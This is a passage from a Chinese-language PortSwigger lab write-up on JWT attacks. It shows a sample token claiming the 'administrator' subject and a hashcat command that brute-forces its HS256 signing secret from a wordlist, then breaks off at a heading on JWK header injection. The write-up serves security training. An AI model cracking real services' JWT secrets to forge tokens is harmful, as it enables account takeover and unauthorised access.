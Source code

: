 payload

```
eyJraWQiOiJjNTQwMzdmNi01ZWY4LTRjMmUtOTk1ZC0zYjljOGRlYzI1Y2UiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzY0MDEwMywic3ViIjoiYWRtaW5pc3RyYXRvciJ9.Ii16Bg3LwjBxL4nivhOJX1c2iJGQsyjsdtflphA8UfQ
```

`hashcat`

```sh
hashcat -a 0 -m 16500 eyJraWQiOiJjNTQwMzdmNi01ZWY4LTRjMmUtOTk1ZC0zYjljOGRlYzI1Y2UiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzY0MDEwMywic3ViIjoiYWR
taW5pc3RyYXRvciJ9.Ii16Bg3LwjBxL4nivhOJX1c2iJGQsyjsdtflphA8UfQ jwt.secrets.list
```

![image-20250519144420533](./img/image-20250519144420533.png)

`john`

![image-20250519144536874](./img/image-20250519144536874.png)

### JWK 头部注入
